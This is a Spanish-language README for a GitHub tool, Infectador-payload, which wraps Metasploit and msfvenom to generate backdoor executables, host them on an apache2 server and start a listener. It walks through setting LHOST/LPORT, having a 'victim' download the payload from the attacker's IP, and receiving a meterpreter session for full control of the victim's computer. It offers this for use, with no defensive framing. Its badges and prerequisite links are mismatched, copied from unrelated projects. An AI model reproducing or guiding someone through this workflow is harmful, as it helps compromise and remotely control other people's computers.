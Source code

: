 # Infectador-payload

[![GoDoc](https://godoc.org/github.com/moby/buildkit?status.svg)](https://godoc.org/github.com/moby/buildkit/client/llb)
[![Build Status](https://github.com/moby/buildkit/workflows/build/badge.svg)](https://github.com/moby/buildkit/actions?query=workflow%3Abuild)
[![Go Report Card](https://goreportcard.com/badge/github.com/moby/buildkit)](https://goreportcard.com/report/github.com/moby/buildkit)
[![codecov](https://codecov.io/gh/moby/buildkit/branch/master/graph/badge.svg)](https://codecov.io/gh/moby/buildkit)

Herramienta perfecta para crear cargas utiles (Backdoors) a una alta velocidad, esta herramienta preside de diferentes opciones, incluiendo la opcion de poder subir tu carga util a un servidor web (apache2).

![backdoor](https://user-images.githubusercontent.com/69093629/104139012-b4ed6500-53a8-11eb-933c-95a869b21c6a.png)

- **INTERFAZ: Grafica**

- **IMPORTANTE: Para utilizar esta herramieta debes tener conocimientos medios en Linux ya que sino no sabras que es lo que estas haciendo.**

- **HERRAMIENTA: Automatizada**

## Pre-requisitos 📋

* [Metaploit](http://www.dropwizard.io/1.0.2/docs/) 
* [xterm](http://www.dropwizard.io/1.0.2/docs/) 

**Instalar Metasploit**
```
sudo apt-get install -y postgresql
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```
**Instalar Xterm**
```
apt-get install xterm 
```
## Instalacion ✅
```
git clone https://github.com/WackyHacker/Infectador-payload
```
```
cd Infectador-payload 
```
```
sudo su
```
```
bash Infectador-payload.sh
```

## Construido con 🛠️

* [Metasploit](https://www.metasploit.com/) - Despliege de carga util
* [Msfvenom](https://www.metasploit.com/) - Creador de cargas utiles
* [Apache2](https://httpd.apache.org/) - Servidor web

## Autor ✒️

* **WackyHacker** - *Todo el proyecto* - [WEIK](https://github.com/WackyHacker)

## Licencia 📄

Este proyecto esta bajo Licencia - mira el archivo [LICENSE](https://github.com/WackyHacker/Infectador-payload/blob/master/LICENSE) para mas detalles

## ¿Como funciona?

Antes de ejecutar la herramienta con ```sudo bash Infectador-payload```, ejecuta primero ```sudo su``` y después ejecuta ```bash Infectador-payload```, si no se hace puede que de problemas en el futuro.


![Captura de pantalla (34)](https://user-images.githubusercontent.com/69093629/104134506-41d4f600-538a-11eb-8aff-79a331979e98.png)


Una vez la herramienta ya esta ejecutada correctamente, se vera algo asi.


![Captura de pantalla (32)](https://user-images.githubusercontent.com/69093629/104134712-c5431700-538b-11eb-8f40-816c6b25a571.png)


Utilizarla es muy sencillo solo hay que seleccionar la opción a utilizar (la ultima esta en mantenimiento), una vez elegida debemos seleccionar la carga útil de nuestra preferencia.


![videosito](https://user-images.githubusercontent.com/69093629/104136758-66d06580-5398-11eb-9526-58302e9f286b.gif)


Una vez elegidas las opciones de preferencia a utilizar, hay que escribir el ```LHOST=[IP]``` , ```LPORT=[PUERTO]```>[Recomendable: 4444], el nombre de tu Backdoor sin su extensión [EX: exe, py] , y finalmente la ruta donde quieres guardar el Backdoor (ojo si eliges que el ataque se efectúe fuera de la red LAN >ngrok< la víctima no podra descargar e instalar el Backdoor a menos que este conectada en la misma red WI-FI que tu) si eliges sin querer subir tu Backdoor a un servidor apache2, para arreglarlo o pulsamos CTRL + C para salir de la herramienta, o puedes acceder a la ruta donde está alojado el servidor apache2 con este comando ```cd /var/www/html/``` y tu Backdoor estará ahí, para no tener problemas, cuando te pida que digites una ruta para guardar el Backdoor, pulsa 'ENTER' y se te guardará automáticamente en el mismo directorio que estás ahora mismo en la carpeta Backdoors.


Y se empezará a crear el Backdoor satisfactoriamente...


![video2](https://user-images.githubusercontent.com/69093629/104136537-2cb29400-5397-11eb-8d1d-3ffdea3bd598.gif)


Una vez termine de crearse la carga util nos hara dos preguntas la primera es '¿Quieres eliminar el Backdoor...?' le pondremos que no de lo contrario 
nos lo eliminara y tendremos que crear uno de nuevo, la segunda es '¿Quieres iniciar Metasploit?' aqui puedes o poner que si o abrir una nueva terminal y abrirlo manualmente.


![Captura de pantalla (42)](https://user-images.githubusercontent.com/69093629/104138852-61c6e280-53a7-11eb-806e-595e7e76e1f7.png)


Una vez todo hecho quedaria algo asi:


![Captura de pantalla (45)](https://user-images.githubusercontent.com/69093629/104149184-876ae080-53d5-11eb-9dfe-7e5966302165.png)


Ahora solo faltaria copiar la seccion que pone 'COPIE Y PEGUE ESTO EN METASPLOIT' lo copiamos y lo pegamos o lo hacemos manualmente, una vez hecho se nos quedaria en escucha nuestra carga util. Ahora iremos a nuestro ordenador victima y instalaremos la carga util de esta manera ``` http://[IP ATACANTE]/[nombre.exe] ``` 


![Captura de pantalla (46)](https://user-images.githubusercontent.com/69093629/104138953-355f9600-53a8-11eb-8fbb-5cd5825e6b06.png)


Una vez el Backdoor instalado a nuestro ordenador victima le llegara una conexion 'meterpreter' eso quiere decir que ya tendremos control total del ordenador victima.


![Captura de pantalla (47)](https://user-images.githubusercontent.com/69093629/104149114-5d192300-53d5-11eb-9c12-d6a2944c5568.png)


¡Dejame una ★ si te ha servido!




